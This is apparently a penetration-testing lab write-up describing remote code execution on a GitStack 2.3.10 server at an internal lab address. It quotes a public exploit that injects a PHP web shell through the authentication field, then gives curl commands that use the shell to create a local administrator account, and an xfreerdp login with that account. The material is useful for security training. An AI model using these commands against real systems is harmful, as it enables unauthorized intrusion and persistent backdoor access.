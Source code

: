 ![8webpage2](imgs/8webpage2.png)

### Administrator access on 10.200.90.150 (git-serv)

RCE of gitstatck 2.3.10
- Search the public exploit: `searchsploit gitstack`
	- Copy it to the cwd: `searchsploit -m php/webapps/43777.py`
- Edit it: `vi 43777.py`
```
...
ip = '10.200.90.150'
...
```
- Read and understand the exploit
```
...
TPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit.php'))
...
r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : command})
```
- Run the exploit with the python2 script: `python2 43777.py`
- Run it manually by curl and add a new admin user
```
curl -X POST -d "a=net user pwnuser passme1416 /add" "http://10.200.90.150/web/exploit.php"

curl -X POST -d "a=net localgroup administrators pwnuser /add" "http://10.200.90.150/web/exploit.php"
```
- Use xfreerdp to connect the target via remote desktop
```
xfreerdp /v:10.200.90.150:3389 /u:pwnuser /p:passme1416
```
